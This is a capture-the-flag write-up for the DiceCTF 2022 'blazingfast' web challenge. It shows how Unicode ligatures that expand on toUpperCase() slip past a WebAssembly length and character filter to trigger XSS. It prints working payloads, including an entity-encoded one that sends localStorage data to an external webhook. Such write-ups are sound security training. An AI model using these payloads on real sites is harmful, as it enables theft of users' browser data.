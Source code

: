 ```yaml
---
title: DICE CTF 2022 – blazingfast
date: '2022-02-06'
draft: false
authors: ['thebish0p']
tags: ['DICE CTF 2022', 'Web', 'XSS', 'Unicode']
summary: 'Bypassing length limitation with Unicode'
---
```


## blazingfast

> by larry
>
> I made a blazing fast MoCkInG CaSe converter!
>
> [blazingfast.mc.ax](blazingfast.mc.ax)
>
> [Admin Bot](https://admin-bot.mc.ax/blazingfast)
>
> Downloads
>
> [blazingfast.tar](https://static.dicega.ng/uploads/c37db76fc7e66f32dee53b48652868aefd79193c1b5936e1f2441e3c70cfcdfa/blazingfast.tar)
>
> [admin-bot.js](https://static.dicega.ng/uploads/1286aac5ffb57d27c1dc1e0221c7c3691e575181720449df62dff67d10ec6749/admin-bot.js)
>
> [blazingfast.c](https://static.dicega.ng/uploads/209c5168fc160763f28a23f23280f921c7e544fb87323726e48584b89d774825/blazingfast.c)

We start by noticing that we have a challenge link and an admin bot link which means this challenge is an XSS challenge. We start with browsing the website and testing it’s normal behaviour as shown below:

![website.png](/static/images/dice-ctf-2022/blazing-fast/website.png)

Moving to the source code, we start by analyzing `index.html`:

```javascript
let blazingfast = null

function mock(str) {
  blazingfast.init(str.length)

  if (str.length >= 1000) return 'Too long!'

  for (let c of str.toUpperCase()) {
    if (c.charCodeAt(0) > 128) return 'Nice try.'
    blazingfast.write(c.charCodeAt(0))
  }

  if (blazingfast.mock() == 1) {
    return 'No XSS for you!'
  } else {
    let mocking = '',
      buf = blazingfast.read()

    while (buf != 0) {
      mocking += String.fromCharCode(buf)
      buf = blazingfast.read()
    }

    return mocking
  }
}

function demo(str) {
  document.getElementById('result').innerHTML = mock(str)
}

WebAssembly.instantiateStreaming(fetch('/blazingfast.wasm')).then(({ instance }) => {
  blazingfast = instance.exports

  document.getElementById('demo-submit').onclick = () => {
    demo(document.getElementById('demo').value)
  }

  let query = new URLSearchParams(window.location.search).get('demo')

  if (query) {
    document.getElementById('demo').value = query
    demo(query)
  }
})
```

As you can see, we can input data in the `demo` parameter and the data provided will be processed by `blazingfast.mock()` which is originating from the `blazingfast.c` provided:

```C
int length, ptr = 0;
char buf[1000];

void init(int size) {
	length = size;
	ptr = 0;
}

char read() {
	return buf[ptr++];
}

void write(char c) {
	buf[ptr++] = c;
}

int mock() {
	for (int i = 0; i < length; i ++) {
		if (i % 2 == 1 && buf[i] >= 65 && buf[i] <= 90) {
			buf[i] += 32;
		}

		if (buf[i] == '<' || buf[i] == '>' || buf[i] == '&' || buf[i] == '"') {
			return 1;
		}
	}

	ptr = 0;

	return 0;
}
```

Several checks are made on our input. Our input can’t be more than 1000 characters and a few characters are blacklisted: [`<`, `>`, `&`, `"`].

> After a lot of trial and error we had an idea that in order to bypass these checks and execute our JavaScript payloads we need to bypass the 1000 characters.

![too_long](/static/images/dice-ctf-2022/blazing-fast/too_long.png)

We stumbled upon an article talking about [Exploiting XSS with 20 characters limitation](https://jlajara.gitlab.io/web/2019/11/30/XSS_20_characters.html) by using unicode characters. In this article, the author gives us a great example:

> Notice that ﬀ characters is only one character but when browsers interpret it, it will be expanded as ff two characters.

We proceed by testing this idea by sending around 600 `ﬀ` which would unpack to 1200 characters. We don’t get any error as shown below:

![No Error](/static/images/dice-ctf-2022/blazing-fast/no_error.png)

This is because `"ﬃ".toUpperCase()` becomes `"FFI"`. The string written to WSAM module is the converted one (disregarding the memory allocated), but the length reported was of the original string. This discrepancy allowing us to write $3n+m$ characters to the memory with only $n+m$ bytes checked for blacklisted characters, thus bypassing the check.

We proceed by using this technique and adding to it our XSS payload to see if we can pop an alert:

```
 ﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃ<img src=x onerror=alert(1)>
```

To our surprise, we get an error `ALERT is not defined`:

![ALERT_ERROR](/static/images/dice-ctf-2022/blazing-fast/ALERT_ERROR.png)

The issue here is that all our payload will be in upper case letters. We came up with a workaround by using XML encoding followed by URL encoding as following:

```
 ﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃ<img src=x onerror=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
```

And we popped an alert!
![XSS Alert](/static/images/dice-ctf-2022/blazing-fast/alert_pop.png)

We continue by crafting a payload to extract the flag and send it back to our webhook.

```
<img src=x onerror=location.href='https://webhook.site/38689352-bda5-4841-80e3-4a48e1655deb?q='.toLowerCase()+localStorage.getItem('flag'.toLowerCase())>
```

After XML and URL encoding our input we send it to the admin bot as shown below:

```
ﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃ<img src=x onerror=&#X6c;&#X6f;&#X63;&#X61;&#X74;&#X69;&#X6f;&#X6e;.&#X68;&#X72;&#X65;&#X66;=&#X27;https://webhook.site/38689352-bda5-4841-80e3-4a48e1655deb?q=&#X27.&#X74;&#X6f;&#X4c;&#X6f;&#X77;&#X65;&#X72;&#X43;&#X61;&#X73;&#X65;()&#X2B;&#X6c;&#X6f;&#X63;&#X61;&#X6c;&#X53;&#X74;&#X6f;&#X72;&#X61;&#X67;&#X65;.&#X67;&#X65;&#X74;&#X49;&#X74;&#X65;&#X6d;(&#X27;flag&#X27;.&#X74;&#X6f;&#X4c;&#X6f;&#X77;&#X65;&#X72;&#X43;&#X61;&#X73;&#X65;())>
```

Finally we receive our flag from the server:

![SUCCESS](/static/images/dice-ctf-2022/blazing-fast/flag.png)
